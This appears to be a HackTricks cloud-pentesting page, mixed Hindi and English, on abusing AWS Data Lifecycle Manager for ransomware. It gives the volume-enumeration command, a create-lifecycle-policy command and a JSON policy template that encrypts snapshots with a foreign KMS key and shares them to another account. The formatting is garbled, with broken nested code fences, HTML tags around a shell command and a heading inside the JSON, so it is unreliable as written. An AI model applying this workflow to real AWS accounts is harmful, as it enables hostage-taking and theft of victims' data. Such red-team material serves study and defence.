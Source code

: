 # AWS - डेटा जीवनकाल प्रबंधक

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks प्रशिक्षण AWS रेड टीम विशेषज्ञ (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks प्रशिक्षण GCP रेड टीम विशेषज्ञ (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 पर **फॉलो** करें [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में।

</details>
{% endhint %}

## डेटा जीवनकाल प्रबंधक (DLM)

### `EC2:DescribeVolumes`, `DLM:CreateLifeCyclePolicy`

एक रैंसमवेयर हमला ऐसे किया जा सकता है जिसमें जितने संभव हो सके अधिक EBS वॉल्यूम को एन्क्रिप्ट करके फिर मौजूदा EC2 इंस्टेंस, EBS वॉल्यूम और स्नैपशॉट्स को मिटा दिया जाए। इस दुराचारी गतिविधि को स्वचालित करने के लिए, व्यक्ति अमेज़न DLM का उपयोग कर सकता है, जो स्नैपशॉट्स को एक अन्य AWS खाते से KMS कुंजी के साथ एन्क्रिप्ट करता है और एन्क्रिप्टेड स्नैपशॉट्स को एक विभिन्न खाते में स्थानांतरित करता है। वैकल्पिक रूप से, वे स्नैपशॉट्स को एन्क्रिप्ट किए बिना अपने प्रबंधित खाते में स्थानांतरित कर सकते हैं और फिर वहां उन्हें एन्क्रिप्ट कर सकते हैं। हालांकि मौजूदा EBS वॉल्यूम या स्नैपशॉट्स को सीधे एन्क्रिप्ट करना सीधा नहीं है, इसे एक नया वॉल्यूम या स्नैपशॉट बनाकर किया जा सकता है।

सबसे पहले, व्यक्ति एक कमांड का उपयोग करेगा जिससे वॉल्यूम्स की जानकारी जुटाई जा सकती है, जैसे इंस्टेंस आईडी, वॉल्यूम आईडी, एन्क्रिप्शन स्थिति, संलग्नता स्थिति, और वॉल्यूम प्रकार।
```aws ec2 describe-volumes```

Secondly, one will create the lifecycle policy. This command employs the DLM API to set up a lifecycle policy that automatically takes daily snapshots of specified volumes at a designated time. It also applies specific tags to the snapshots and copies tags from the volumes to the snapshots. The policyDetails.json file includes the lifecycle policy's specifics, such as target tags, schedule, the ARN of the optional KMS key for encryption, and the target account for snapshot sharing, which will be recorded in the victim's CloudTrail logs.


```bash
```html
<p>aws dlm create-lifecycle-policy --description "मेरी पहली नीति" --state ENABLED --execution-role-arn arn:aws:iam::12345678910:role/AWSDataLifecycleManagerDefaultRole --policy-details file://policyDetails.json</p>
```
```

A template for the policy document can be seen here:
```bash
```md
### AWS DLM Post-Exploitation

#### एवीडब्ल्यूएस डीएलएम पोस्ट-एक्सप्लोइटेशन

```json
{
"PolicyType": "EBS_SNAPSHOT_MANAGEMENT",
"ResourceTypes": [
"VOLUME"
],
"TargetTags": [
{
"Key": "ExampleKey",
"Value": "ExampleValue"
}
],
"Schedules": [
{
"Name": "DailySnapshots",
"CopyTags": true,
"TagsToAdd": [
{
"Key": "SnapshotCreator",
"Value": "DLM"
}
],
"VariableTags": [
{
"Key": "CostCenter",
"Value": "Finance"
}
],
"CreateRule": {
"Interval": 24,
"IntervalUnit": "HOURS",
"Times": [
"03:00"
]
},
"RetainRule": {
"Count": 14
},
"FastRestoreRule": {
"Count": 2,
"Interval": 12,
"IntervalUnit": "HOURS"
},
"CrossRegionCopyRules": [
{
"TargetRegion": "us-west-2",
"Encrypted": true,
"CmkArn": "arn:aws:kms:us-west-2:123456789012:key/your-kms-key-id",
"CopyTags": true,
"RetainRule": {
"Interval": 1,
"IntervalUnit": "DAYS"
}
}
],
"ShareRules": [
{
"TargetAccounts": [
"123456789012"
],
"UnshareInterval": 30,
"UnshareIntervalUnit": "DAYS"
}
]
}
],
"Parameters": {
"ExcludeBootVolume": false
}
}
```
```

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
